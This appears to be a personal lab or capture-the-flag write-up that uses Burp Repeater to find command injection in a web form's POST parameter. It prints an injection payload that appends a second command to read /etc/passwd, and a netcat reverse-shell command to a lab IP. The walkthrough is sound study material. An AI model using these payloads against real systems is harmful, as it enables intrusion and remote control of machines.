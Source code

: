 
- starting page after dropping in as `Devon`
![[Pasted image 20250102221039.png]]
- checking the `2` boces and hitting submit diplays some results
![[Pasted image 20250102221246.png]]
- in burp we see a `POST` request with fields that look interesting
![[Pasted image 20250102221330.png]]
- two fields that we need to test - sending to `REPEATER`
- in testing we were able to find that the `sys_tracks` was able to be `appended` with `;` and get results back

payload
```http
sys_info=-h&sys_tracks=%2Fvar%2Ftmp%2Ftracks%2F;cat+/etc/passwd
```
- we can see that `/etc/passwd` was able to be `grep'd`
![[Pasted image 20250102221723.png]]
- able to see that `nc` is on the machine, should be able to get a reverse shell with this
![[Pasted image 20250102221818.png]]
- currenly crashing the machine , going to try again tomorrow rather than get frustrated
```bash
/bin/nc 192.168.45.233 1337 -e /bin/bash
```
- next day was able to use `POST` request below to get a shell
![[Pasted image 20250103171950.png]]
![[Pasted image 20250103171909.png]]